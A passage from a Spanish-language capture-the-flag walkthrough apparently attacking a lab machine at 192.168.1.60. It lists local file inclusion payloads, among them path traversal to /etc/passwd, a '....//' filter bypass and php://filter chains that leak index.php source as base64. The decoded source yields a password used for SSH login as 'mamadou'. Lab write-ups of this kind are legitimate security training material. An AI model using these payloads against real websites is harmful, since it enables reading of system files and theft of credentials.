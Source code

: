 ```bash
http://192.168.1.60/?lang=../../../etc/passwd
http://192.168.1.60/?lang=....//....//....//etc/passwd
http://192.168.1.60/?lang=php://filter/read=string.toupper|string.rot13|string.tolower/resource=index.php
http://192.168.1.60/?lang=php://filter/convert.base64-encode/resource=index.php
```

Después de numerosos intentos, logramos explotar la vulnerabilidad de inclusión de archivos locales (LFI) utilizando la función `php://filter/convert.base64-encode/resource=index`, lo que nos permitió acceder a la página de índice.

```markdown
http://192.168.1.60/?lang=php://filter/convert.base64-encode/resource=index
```

<figure><img src="../../.gitbook/assets/image (116).png" alt=""><figcaption></figcaption></figure>

Creamos un archivo utilizando la cadena codificada y luego procedemos a decodificarlo empleando un decodificador Base64.

<figure><img src="../../.gitbook/assets/image (117).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (118).png" alt=""><figcaption></figcaption></figure>

Al decodificar la cadena codificada en **Base64**, descubrimos la contraseña la cual, junto con la información de que **mamadou** es el autor, nos permite iniciar sesión a través de SSH en la máquina objetivo.
